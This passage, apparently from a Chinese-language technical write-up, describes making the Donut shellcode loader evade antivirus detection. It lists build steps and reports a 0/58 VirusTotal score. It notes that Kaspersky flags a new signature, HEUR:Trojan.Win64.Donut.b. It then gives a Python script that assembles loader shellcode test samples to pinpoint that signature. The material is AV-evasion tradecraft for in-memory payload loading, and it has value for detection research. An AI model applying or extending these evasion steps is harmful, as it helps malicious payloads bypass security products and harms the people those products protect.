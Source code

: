 命令对应说明

1.  生成 exe2h.exe
2.  编译 LOADER
3.  链接 LOADER
4.  通过 exe2h.exe 将 loader.exe 转换为 `loader_exe_x86.h`

再次将 LOADER 保存为文件，查杀结果为 0/58，查杀报告[链接](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67)

至此 LOADER 的免杀就完成，但重新编译 `donut.exe` 后，再次生成 shellcode 查杀还有问题

`Kaspersky` 和 `ZoneAlarm by Check Point` 会报 `HEUR:Trojan.Win64.Donut.b`

特征名称发生了变化，从 `HEUR:Trojan.Win64.Donut.a` 变成了 `HEUR:Trojan.Win64.Donut.b`

## 新特征的免杀

### 分析新特征

根据前文的分析，编写样本生成脚本

```plain
import re
from io import BytesIO
from pathlib import Path


def get_loader():
    data = Path('loader_exe_x86.h').read_text('ascii')
    return bytes.fromhex("".join(re.findall(r'0x([0-9a-f]{2})', data)))


def build_loader(data: bytes, noeip=False):
    writer = BytesIO()
    if noeip:
        writer.write(b'\x90')  # nop
    else:
        writer.write(b'\xe8')  # call $+datalen
    writer.write(int.to_bytes(len(data), 4, 'big'))
    writer.write(data)
    if noeip:
        writer.write(b'\x90' * 4)
    else:
        writer.write(b'\x59')  # pop ecx
        writer.write(b'\x5a')  # pop edx
        writer.write(b'\x51')  # push ecx
        writer.write(b'\x52')  # push edx
    writer.write(get_loader())  # LOADER
    return writer.getvalue()


Path('test.bin').write_bytes(get_loader())
Path('test1.bin').write_bytes(build_loader(b'\x90'))
Path('test2.bin').write_bytes(build_loader(b'\x90', noeip=True))
Path('test3.bin').write_bytes(build_loader(b'\x90' * 100))
Path('test4.bin').write_bytes(build_loader(b'\x90' * 100, noeip=True))
Path('test5.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024))
Path('test6.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024, noeip=True))
```
